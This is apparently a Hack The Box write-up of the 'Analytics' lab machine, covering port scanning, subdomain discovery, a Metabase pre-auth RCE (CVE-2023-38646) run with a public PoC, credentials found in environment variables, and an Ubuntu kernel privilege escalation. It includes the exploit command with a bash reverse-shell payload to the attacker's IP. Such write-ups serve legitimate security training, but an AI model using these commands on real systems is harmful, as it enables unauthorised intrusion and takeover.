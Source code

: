+++
author = true
title = "Analytics HTB Writeup"
date = "2024-05-13"
description = "Analytics writeup"
tags = [
    "writeup"
]
categories = [
    "Red Pill"
]
toc = true
image = "images/4ee3e0b492328aaff5facb4c6a3cd03dc9db5cc1.png"
+++


## Author
* Aizzat Azman


**Summary** We have port 22 (ssh) and 80 (webserver) open, we enumerate the webserver and found out it have subdomains data.analytics.htb. We greeted with metabase that have vulnerabilities and we exploit it to gain reverse shell. We enumerate the machine and found user credential in the environment. Finally we found kernel exploit that help escalate our privilege to root.

Let's begin.

## Port Scanning

First we run our machine and we get our target IP address

Target : 10.10.11.233

<figure>
<img
src="images/f1d06feaefcc2cea64bb90604177da98747a34b8.png"
title="wikilink" alt="Pastedimage20240514095314.png" />
</figure>

First thing first is we run our ***nmap*** scan to scan any open port and services.

    nmap -sC -sV 10.10.11.233   

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-06 10:10 +08
    Nmap scan report for analytical.htb (10.10.11.233)
    Host is up (0.18s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
    |_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Analytical
    |_http-server-header: nginx/1.18.0 (Ubuntu)

    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

    Nmap done: 1 IP address (1 host up) scanned in 34.88 seconds

We have 2 open port, **SSH** and **HTTP** webserver. Let's have a look what do we have in the webserver.

We first have to put the domain into our **/etc/host** to be able to access the webserver.

<figure>
<img
src="images/ed6abf9562e580d7ec1bfd51e4df13dd18a29e8a.png"
title="wikilink" alt="Pastedimage20240514095332.png" />
</figure>

<figure>
<img
src="images/436b59f14d8d7a1219a5b217e498762f000bfedb.png"
title="wikilink" alt="Pastedimage20240514095404.png" />
</figure>

## Web Enumeration

We are greeted by a simple landing page. I tried to look around even in the **Page Source** but it seems like **nothing** that could lead us further.

<figure>
<img
src="images/15b197cca94b0e20ea3a4bfce81c28950e40b1c9.png"
title="wikilink" alt="Pastedimage20240514095411.png" />
</figure>

There's a contact form and I try to input random string but it just bring us to the top of the page again. We also found couple of email that we could probably use later (Spoiler we didn't have to use it).

<figure>
<img
src="images/21ab03a50296a956479a7e181bfb6725ba38384a.png"
title="wikilink" alt="Pastedimage20240514095418.png" />
</figure>

### Directory Enumeration

We try to brute force directory using ***dirsearch*** to look for any secret directory but seems like there's none.

<figure>
<img
src="images/431162882cf7d66b6797756526ffb3c3b0bab2ec.png"
title="wikilink" alt="Pastedimage20240514095424.png" />
</figure>

Since there's no useful result on ***dirsearch***, I proceed to try enumerate the subdomains and we **found a subdomain** that we can try to get into. But before that we have to include it inside ***/etc/hosts*** as well.

<figure>
<img
src="images/35e1db14466956f178e0961e0baabc120bf96e62.png"
title="wikilink" alt="Pastedimage20240514095430.png" />
</figure>

<figure>
<img
src="images/496261e8fc20676c2462f5f179bc4939de40906a.png"
title="wikilink" alt="Pastedimage20240514095436.png" />
</figure>

## Metabase

It lead us to **metabase** login form. We don't have any credential yet. So I try sql injection and other techniques but lead me to nothing. So I google if metabase have any exploit.

<figure>
<img
src="images/40da9834b90d452601fffde583ef3f846c8071ae.png"
title="wikilink" alt="Pastedimage20240514095445.png" />
</figure>

We try to google for any exploit regarding Metabase and as we can see there's couple of **Metabase exploit** that we can try to use.

<figure>
<img
src="images/c00ae59677667348d48a91c2f198dbf4c5b9d394.png"
title="wikilink" alt="Pastedimage20240514095452.png" />
</figure>

### CVE-2023-38646

I'm going to try [https://github.com/m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc?ref=tamagorengs.com) exploit first. You can learn more detail on how the exploit work here [https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/?ref=tamagorengs.com). We first need to get the setup-token at **/api/session/properties** and run it with command below

<figure>
<img
src="images/f43f2b8167ccfdd5f1002ce29909c6aad1271891.png"
title="wikilink" alt="Pastedimage20240514095459.png" />
</figure>

    python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]"

we end up with this

    python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "sh -i >& /dev/tcp/10.10.14.133/2210 0>&1"

## Initial Foothold

And now we have a reverse shell. We are currently user metabase. I try **sudo -l** but seems like we need **tty**. I check python and it's also not available. I tried other tty techniques but nothing works. We also get nothing from from the metabase home directory.

<figure>
<img
src="images/a136beb7edb947e1d4269a38ff45acc9a7153f8a.png"
title="wikilink" alt="Pastedimage20240514095514.png" />
</figure>

<figure>
<img
src="images/cc2bdb05cdb4cd782ec5699f3c12c8f2a7b984ee.png"
title="wikilink" alt="Pastedimage20240514095519.png" />
</figure>

## Privilege Escalation - Part 1

I try enumerate more on the host. I try **env** to check the environment of the host and notice a **Pass** and a **User**. Let's try SSH into the machine use below **credential**.

<figure>
<img
src="images/b838f9ff990d9e459a7855ddc248747134738d62.png"
title="wikilink" alt="Pastedimage20240514095525.png" />
</figure>

We succesfully get into **metalytics** user through SSH and now we get the **user flag**. Now we have to find a way to escalate our privileges.

<figure>
<img
src="images/6d7095c8f1e92c10683eb21a229d364fcb97efa7.png"
title="wikilink" alt="Pastedimage20240514095531.png" />
</figure>

## Privilege Escalation - Part 2

We run **sudo -l** to check if we have any sudo privileges but it seems that we can't run anything as sudo.

<figure>
<img
src="images/f965b4b8c111e5fec8f04f501d99f360ef9326b5.png"
title="wikilink" alt="Pastedimage20240514095538.png" />
</figure>

Let's run ***linpeas*** to automate the enumeration

<figure>
<img
src="images/93d1f7be6aecb4abf4655739ff25698cee526802.png"
title="wikilink" alt="Pastedimage20240514095538.png" />
</figure>

### CVE-2023-2640

After looking around for **kernel exploit vulnerability**. I found an PoC regarding below version of ubuntu. You can read more here [https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?ref=tamagorengs.com).

<figure>
<img
src="images/60628a19cca0788ce6c9bd8a6eba4f056a23caf1.png"
title="wikilink" alt="Pastedimage20240514095602.png" />
</figure>

All we have to do is get the exploit, and run it. And voila we are now root. Let's finish this by getting the root flag.

<figure>
<img
src="images/8d0b9d95980334a842a233ec9a042101956d9a35.png"
title="wikilink" alt="Pastedimage20240514095606.png" />
</figure>

And that's it, we managed to finish this box.

<figure>
<img
src="images/e5f424abcc8966986e02c3b35a9cf3e1e4119308.png"
title="wikilink" alt="Pastedimage20240514095612.png" />
</figure>

